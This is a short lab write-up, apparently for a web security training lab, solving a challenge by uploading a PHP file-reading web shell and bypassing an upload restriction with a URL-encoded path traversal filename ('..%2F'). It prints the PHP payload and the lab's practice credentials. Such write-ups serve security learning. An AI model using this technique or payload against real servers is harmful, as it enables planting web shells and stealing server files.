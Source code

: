 # Lab: Web shell upload via path traversal

>This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

>To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

>You can log in to your own account using the following credentials: wiener:peter

### Observations
Payload to read from secret file: `<?php echo file_get_contents('/home/carlos/secret');?>`

I uploaded the file and navigated to `/files/avatars/1readfile.php` and instead of executing, the php code is just printed onto the webpage.

### Next steps
We need to upload this file into a different directory, one that does not usually accept user input. We can find images for blog posts at `/image/blog/posts/<NAME_HERE>.jpg`

We can also find images at `/resources/images/<NAME>`

Can we use a path traversal attack to upload our php code to the `/image` directory?

I captured the POST request to upload the file, and I renamed my file from `1readfile.php` to `../../1readfile.php`... It successfully uploaded and the webpage says that the image can be found at `<img src="/files/avatars/../../1readfile.php" class="avatar">`... I tried navigating to this directory but I got a `Not Found` result

### Solution
I tried url encoding `../` in the captured request, which yields `..%2F`. I then changed the filename in the request to `..%2F1readfile.php`. I got confirmation that the file was uploaded, and now I can see the secret of carlos by navigating to `/files/1readfile.php`

Lab solved!